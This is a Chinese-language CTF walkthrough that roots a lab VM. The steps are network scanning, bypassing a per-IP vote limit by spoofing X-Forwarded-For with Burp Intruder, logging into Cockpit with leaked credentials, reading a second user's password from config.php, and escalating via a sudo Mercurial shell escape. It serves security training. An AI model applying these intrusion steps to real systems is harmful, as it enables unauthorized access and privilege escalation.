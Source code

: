 # 一、信息收集

首先使用 ARP 扫描发现局域网内的主机：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.181 08:00:27:3d:b4:79       PCS Systemtechnik GmbH
...
```

发现目标主机 `192.168.205.181`，接下来对其进行端口扫描：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.181
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 20:15 CST
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin
...
```

扫描结果显示开放了三个端口：

- 22端口：SSH 服务
- 80端口：HTTP 服务
- 9090端口：zeus-admin 服务

# 二、Web 服务分析

## 2.1 HTTP 服务（80端口）

访问 80 端口发现是一个投票系统，用户可以进行投票并显示当前 IP 地址。

![投票系统界面](http://7r1UMPHK.github.io/image/20250911203856527.webp)

通过测试发现：

- 一次最多可以投 10 票
- 每个 IP 地址只能投 10 票

## 2.2 绕过投票限制

由于需要 1000 票才能获取隐藏信息，而单个 IP 只能投 10 票，因此需要伪造不同的 IP 地址。

抓包分析投票请求：

```http
POST /vote/vote.php HTTP/1.1
Host: 192.168.205.180
...
X-Forwarded-For: 192.168.205.§1§
...

vote=1&vote_count=10
```

**攻击方法：**
使用 BurpSuite 的 Intruder 模块，在 `X-Forwarded-For` 头部插入 payload，设置数值范围为 0-255，模拟不同 IP 地址进行批量投票，点击开始攻击。

> **知识点补充：** `X-Forwarded-For` 是一个 HTTP 头部字段，用于标识通过代理服务器连接到 Web 服务器的客户端的原始 IP 地址。许多 Web 应用程序会信任这个头部来获取真实客户端 IP，但这可能被恶意利用来绕过基于 IP 的限制。

投票达到 1000 票后，页面显示隐藏信息：`pencek:d032fc2b8b`

![隐藏信息显示](http://7r1UMPHK.github.io/image/20250911203857959.webp)

# 三、Cockpit 服务利用

## 3.1 访问 9090 端口服务

9090 端口运行的是 Cockpit 服务，这是一个基于 Web 的 Linux 系统管理工具。

> **知识点补充：** Cockpit 是 Red Hat 开发的一款开源 Web 控制台，允许管理员通过 Web 界面管理 Linux 系统，包括系统监控、服务管理、终端访问等功能。

## 3.2 登录验证

使用获取到的凭据 `pencek:d032fc2b8b` 尝试登录 Cockpit，登录成功。

在 Cockpit 界面中发现终端选项，点击后可以直接获得系统 shell 访问权限。

# 四、权限提升

## 4.1 初步信息收集

```bash
pencek@Login:~$ id
uid=1000(pencek) gid=1000(pencek) groups=1000(pencek)

pencek@Login:~$ sudo -l
Sorry, user pencek may not run sudo on Login.

pencek@Login:/home$ ls -al
...
drwx------  2 pencek pencek 4096 Sep  7 07:57 pencek
drwx------  2 todd   todd   4096 Sep  7 08:34 todd
```

发现系统中还有另一个用户 `todd`。

## 4.2 查找配置文件

检查 Web 应用的配置文件：

```bash
pencek@Login:/var/www/html/vote$ cat config.php 
<?php
// 隐藏信息配置
define('SECRET_INFO', 'pencek:d032fc2b8b');
define('REQUIRED_VOTES', 1000);
define('SALT', 'your_random_salt_value_here');
define('todd','1213562e5cf594899d1348');
...
```

在配置文件中发现了 `todd` 用户的密码：`1213562e5cf594899d1348`

## 4.3 横向移动到 todd 用户

```bash
pencek@Login:/var/www/html/vote$ su todd
Password: 1213562e5cf594899d1348

todd@Login:/var/www/html/vote$ sudo -l
...
User todd may run the following commands on Login:
    (ALL) NOPASSWD: /usr/bin/hg
```

发现 `todd` 用户可以无密码执行 `/usr/bin/hg`（Mercurial 版本控制系统）。

## 4.4 利用 Mercurial 提权到 root

> **知识点补充：** Mercurial (hg) 是一个分布式版本控制系统。当系统管理员配置不当，允许用户以 sudo 权限执行 hg 命令时，攻击者可能利用 hg 的某些功能来执行任意命令。

查看 hg 的帮助信息并寻找可利用的功能：

```bash
todd@Login:/var/www/html/vote$ sudo /usr/bin/hg -h
Mercurial Distributed SCM
...
```

利用 hg 的交互功能（显示`:`）逃逸到 shell：

```bash
#输入!/bin/bash
root@Login:/var/www/html/vote# id
uid=0(root) gid=0(root) groups=0(root)
```

> **攻击原理：** 在 hg 的交互模式下，可以使用 `!` 符号执行系统命令。由于 hg 是以 root 权限运行的，因此执行的命令也具有 root 权限。

# 五、获取 flag

成功提权到 root 后，获取两个 flag：

```bash
root@Login:/var/www/html/vote# cat /root/root.txt /home/pencek/user.txt 
flag{root-e07910a06a086c83ba41827aa00b26ed}
flag{user-d032fc2b8b1213562e5cf594899d1348}
```